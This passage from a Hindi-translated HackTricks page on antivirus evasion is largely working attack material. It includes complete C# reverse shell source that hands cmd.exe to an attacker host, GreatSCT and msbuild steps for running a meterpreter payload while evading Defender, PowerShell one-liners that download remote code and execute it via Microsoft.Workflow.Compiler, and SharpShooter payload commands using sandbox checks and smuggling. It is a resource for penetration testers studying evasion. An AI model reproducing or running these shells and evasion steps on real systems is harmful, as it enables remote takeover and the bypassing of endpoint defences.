* यदि `winvnc` पहले से चल रहा है तो इसे शुरू न करें या आप [पॉपअप](https://i.imgur.com/1SROTTl.png) को ट्रिगर करेंगे। जांचें कि यह चल रहा है `tasklist | findstr winvnc` के साथ
* यदि उसी निर्देशिका में `UltraVNC.ini` नहीं है तो `winvnc` शुरू न करें या यह [कॉन्फ़िग विंडो](https://i.imgur.com/rfMQWcf.png) को खोल देगा
* मदद के लिए `winvnc -h` न चलाएं या आप [पॉपअप](https://i.imgur.com/oc18wcu.png) को ट्रिगर करेंगे

### GreatSCT

इसे डाउनलोड करें: [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)
```
git clone https://github.com/GreatSCT/GreatSCT.git
cd GreatSCT/setup/
./setup.sh
cd ..
./GreatSCT.py
```
Inside GreatSCT:
```
use 1
list #Listing available payloads
use 9 #rev_tcp.py
set lhost 10.10.14.0
sel lport 4444
generate #payload is the default name
#This will generate a meterpreter xml and a rcc file for msfconsole
```
अब **लिस्टर शुरू करें** `msfconsole -r file.rc` के साथ और **xml पेलोड** को निष्पादित करें:
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe payload.xml
```
**वर्तमान डिफेंडर प्रक्रिया को बहुत तेजी से समाप्त कर देगा।**

### अपना खुद का रिवर्स शेल संकलित करना

https://medium.com/@Bank\_Security/undetectable-c-c-reverse-shells-fab4c0ec4f15

#### पहला C# रिवर्स शेल

इसे संकलित करें:
```
c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:back2.exe C:\Users\Public\Documents\Back1.cs.txt
```
इसे इसके साथ उपयोग करें:
```
back.exe <ATTACKER_IP> <PORT>
```

```csharp
// From https://gist.githubusercontent.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc/raw/1b6c32ef6322122a98a1912a794b48788edf6bad/Simple_Rev_Shell.cs
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;


namespace ConnectBack
{
public class Program
{
static StreamWriter streamWriter;

public static void Main(string[] args)
{
using(TcpClient client = new TcpClient(args[0], System.Convert.ToInt32(args[1])))
{
using(Stream stream = client.GetStream())
{
using(StreamReader rdr = new StreamReader(stream))
{
streamWriter = new StreamWriter(stream);

StringBuilder strInput = new StringBuilder();

Process p = new Process();
p.StartInfo.FileName = "cmd.exe";
p.StartInfo.CreateNoWindow = true;
p.StartInfo.UseShellExecute = false;
p.StartInfo.RedirectStandardOutput = true;
p.StartInfo.RedirectStandardInput = true;
p.StartInfo.RedirectStandardError = true;
p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
p.Start();
p.BeginOutputReadLine();

while(true)
{
strInput.Append(rdr.ReadLine());
//strInput.Append("\n");
p.StandardInput.WriteLine(strInput);
strInput.Remove(0, strInput.Length);
}
}
}
}
}

private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
{
StringBuilder strOutput = new StringBuilder();

if (!String.IsNullOrEmpty(outLine.Data))
{
try
{
strOutput.Append(outLine.Data);
streamWriter.WriteLine(strOutput);
streamWriter.Flush();
}
catch (Exception err) { }
}
}

}
}
```
### C# उपयोग करके संकलक
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt.txt REV.shell.txt
```
[REV.txt: https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066](https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066)

[REV.shell: https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639](https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639)

स्वचालित डाउनलोड और निष्पादन:
```csharp
64bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell

32bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell
```


C# obfuscators सूची: [https://github.com/NotPrab/.NET-Obfuscator](https://github.com/NotPrab/.NET-Obfuscator)

### C++
```
sudo apt-get install mingw-w64

i686-w64-mingw32-g++ prometheus.cpp -o prometheus.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```
* [https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp](https://github.com/paranoidninja/ScriptDotSh-MalwareDevelopment/blob/master/prometheus.cpp)
* [https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/](https://astr0baby.wordpress.com/2013/10/17/customizing-custom-meterpreter-loader/)
* [https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Mittal-AMSI-How-Windows-10-Plans-To-Stop-Script-Based-Attacks-And-How-Well-It-Does-It.pdf)
* [https://github.com/l0ss/Grouper2](ps://github.com/l0ss/Group)
* [http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html](http://www.labofapenetrationtester.com/2016/05/practical-use-of-javascript-and-com-for-pentesting.html)
* [http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/](http://niiconsulting.com/checkmate/2018/06/bypassing-detection-for-a-reverse-meterpreter-shell/)

### Python का उपयोग करके इंजेक्टर बनाने का उदाहरण:

* [https://github.com/cocomelonc/peekaboo](https://github.com/cocomelonc/peekaboo)

### अन्य उपकरण
```bash
# Veil Framework:
https://github.com/Veil-Framework/Veil

# Shellter
https://www.shellterproject.com/download/

# Sharpshooter
# https://github.com/mdsecactivebreach/SharpShooter
# Javascript Payload Stageless:
SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3

# Stageless HTA Payload:
SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee

# Staged VBS:
SharpShooter.py --payload vbs --delivery both --output foo --web http://www.foo.bar/shellcode.payload --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4

# Donut:
https://github.com/TheWover/donut

# Vulcan
https://github.com/praetorian-code/vulcan
```
### More

* [https://github.com/persianhydra/Xeexe-TopAntivirusEvasion](https://github.com/persianhydra/Xeexe-TopAntivirusEvasion)

<figure><figcaption></figcaption></figure>

यदि आप **हैकिंग करियर** में रुचि रखते हैं और अचूक को हैक करना चाहते हैं - **हम भर्ती कर रहे हैं!** (_फ्लूएंट पोलिश लिखित और मौखिक आवश्यक है_)।




AWS हैकिंग सीखें और अभ्यास करें:[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)\
GCP हैकिंग सीखें और अभ्यास करें: [**HackTricks Training GCP Red Team Expert (GRTE)**](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** का अनुसरण करें।**
* हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>

